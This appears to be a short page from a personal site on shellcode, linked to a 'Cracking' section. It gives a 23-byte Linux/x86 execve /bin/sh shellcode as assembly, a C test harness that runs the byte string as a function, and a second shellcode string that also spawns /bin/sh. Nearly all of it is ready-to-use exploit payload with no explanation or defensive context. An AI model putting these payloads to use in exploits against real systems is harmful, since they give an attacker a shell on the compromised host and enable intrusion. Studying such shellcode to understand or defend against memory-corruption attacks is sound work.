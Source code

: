 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>Methode - Shellcode</title>
</head>
[index](index.html) [Cracking](cracking.html)

## Linux/x86 execve /bin/sh shellcode 23 bytes

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}

## Autre shellcode
"\x31\xC0\xB0\x46\x31\xDB\x31\xC9\xCD\x80\xEB
 \x13\x5B\x31\xC0\x88\x43\x07\x89\x5B\x08\x89
 \x43\x0C\xB0\x0B\x8D\x4B\x08\x8D\x53\x0C\xCD
 \x80\xE8\xE5\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F
 \x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"